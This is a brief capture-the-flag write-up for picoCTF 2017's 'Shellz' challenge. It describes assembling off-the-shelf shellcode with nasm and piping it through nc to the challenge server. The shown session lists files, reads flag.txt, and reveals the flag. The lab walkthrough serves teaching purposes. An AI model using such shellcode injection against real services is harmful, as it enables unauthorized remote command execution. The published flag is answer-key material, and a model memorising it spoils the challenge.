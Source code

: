 # Shellz

> You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:49324.

Hints:

> There is a bunch of preexisting shellcode already out there!

This was pretty easy as there are many shellcodes available in the internet. I don't remember where did I get this one, but it was probably taken from [this site](https://www.exploit-db.com/shellcode/).
We can input 40 bytes and most of shellcodes are even shorter so it's not big problem to find one working. We will copy assembly source code and compile it to binary using nasm.
Now we can connect to the server and send it our shellcode.
```
$ nasm payload.asm
$ cat payload - | nc shell2017.picoctf.com 49324
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
cat flag.txt
51e2978e4e59013145c2613f01185802
```

The flag is `51e2978e4e59013145c2613f01185802`.
